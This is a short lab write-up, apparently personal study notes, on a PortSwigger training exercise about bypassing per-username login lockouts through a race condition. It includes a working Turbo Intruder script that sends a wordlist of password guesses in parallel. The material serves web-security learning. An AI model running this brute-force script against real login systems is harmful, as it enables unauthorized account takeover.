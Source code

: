	**Bypassing rate limits via race conditions**
	
	From <https://portswigger.net/web-security/race-conditions/lab-race-conditions-bypassing-rate-limits> 
	
	
	We get lockout after 3 incorrect password attempts
	logging in using another arbitrary username and observe that you see the normal Invalid username or password message. This indicates that the rate limit is enforced per-username rather than per-session.
	
	Deduce that the number of failed attempts per username must be stored server-side.
	
	• Consider that there may be a race window between:
		• When you submit the login attempt.
		• When the website increments the counter for the number of failed login attempts associated with a particular username.
		
Send 20 login request to repeater
Put them in group and send them in parallel
• Infer that if you're quick enough, you're able to submit more than three login attempts before the account lock is triggered.

![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/60b6ca44-6014-4492-80e5-591c75ff5e21)






Our exploit 
```
def queueRequests(target, wordlists):

    # as the target supports HTTP/2, use engine=Engine.BURP2 and concurrentConnections=1 for a single-packet attack
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           engine=Engine.BURP2
                           )
    
    # assign the list of candidate passwords from your clipboard
    passwords = wordlists.clipboard
    
    # queue a login request using each password from the wordlist
    # the 'gate' argument withholds the final part of each request until engine.openGate() is invoked
    for password in passwords:
        engine.queue(target.req, password, gate='1')
    
    # once every request has been queued
    # invoke engine.openGate() to send all requests in the given gate simultaneously
    engine.openGate('1')


def handleResponse(req, interesting):
    table.add(req)
```
